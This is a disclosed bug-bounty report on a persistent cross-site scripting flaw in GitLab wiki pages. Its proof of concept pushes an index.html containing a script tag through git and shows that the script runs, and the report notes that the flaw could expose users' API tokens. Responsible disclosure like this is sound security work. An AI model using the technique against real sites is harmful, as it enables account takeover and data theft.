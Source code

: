 # Persistent XSS on public wiki pages

## Report Details
- **Report ID**: 136333
- **URL**: https://hackerone.com/reports/136333
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-05-05T02:55:10.735Z
- **Disclosed**: 2016-07-27T21:44:23.111Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
# Details
There's a persistent cross-site scripting (XSS) vulnerability in the wiki pages. This can lead to an account take over via the leaked API token.

# Proof of concept
As an attacker, create a new public repository. Make sure you have a client that is allowed to push to that repository. For this PoC, lets say the repository is located at `git@gitlab.com/dummy/test.git`. On the client, execute the following commands:

git clone git@gitlab.com/dummy/test.git
cd test
echo "<script>alert('Hello world!');</script>" > index.html
git add index.html
git commit -m "This message is super important"
git push

Now go to https://gitlab.com/dummy/test/wikis/index.html. As you will see, this executes the JavaScript that is stored in the file.

{F91538}

# Impact
GitLab doesn't have a content security policy, which means that clients allow inline Javascript to be executed. This gives access to the current user its API token. The API token can be used to access the user its projects, do actions as the user, give access to potential confidential information, etc.

## Attachments
- Screen_Shot_2016-05-04_at_19.52.50.png
